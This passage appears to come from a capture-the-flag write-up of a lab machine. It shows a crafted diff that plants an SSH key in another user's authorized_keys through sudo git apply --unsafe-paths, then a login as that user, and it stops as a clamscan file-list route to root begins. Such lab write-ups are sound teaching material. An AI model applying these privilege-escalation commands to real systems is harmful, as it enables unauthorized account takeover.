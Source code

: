 
Each of these allowed for an unintended solution, and each was tighted up with
regex to block the unintended paths.

### cbrown –> sbrown: –unsafe-paths

The main point of the exploit to showcase is that symbolic links created in
the diff are not protected. However, it is possible to not even need that if I
can give any parameters to `git apply` as was the case on release.

For example, I’ll create a diff file in `/dev/shm`:

    
    
    cbrown@snoopy:~$ cat /dev/shm/test.diff 
    diff --git a/authorized_keys b/authorized_keys
    new file mode 100644
    index 0000000..ec273c0
    --- /dev/null
    +++ b/authorized_keys
    @@ -0,0 +1 @@
    +ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing
    -- 
    

Now I can use `--unsafe-paths` and `--directory` to apply this diff itno the
`.ssh` folder of sbrown:

    
    
    cbrown@snoopy:~$ sudo -u sbrown git apply -v --unsafe-paths --directory "/home/sbrown/.ssh" /dev/shm/test.diff 
    Checking patch /home/sbrown/.ssh/authorized_keys...
    Applied patch /home/sbrown/.ssh/authorized_keys cleanly.
    

And SSH in as sbrown:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen sbrown@snoopy.htb
    Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)
    ...[snip]...
    sbrown@snoopy:~$ 
    

### sbrown –> root: –file-list / -f

Looking through the `-h` options for `clamscan`, `-f` jumps out as
interesting.

    
    
    sbrown@snoopy:~$ clamscan -h
    
                           Clam AntiVirus: Scanner 1.0.0
               By The ClamAV Team: https://www.clamav.net/about.html#credits
               (C) 2022 Cisco Systems, Inc.
    
        clamscan [options] [file/directory/-]
    ...[snip]...
        --file-list=FILE      -f FILE        Scan files from FILE
    ...[snip]...  
    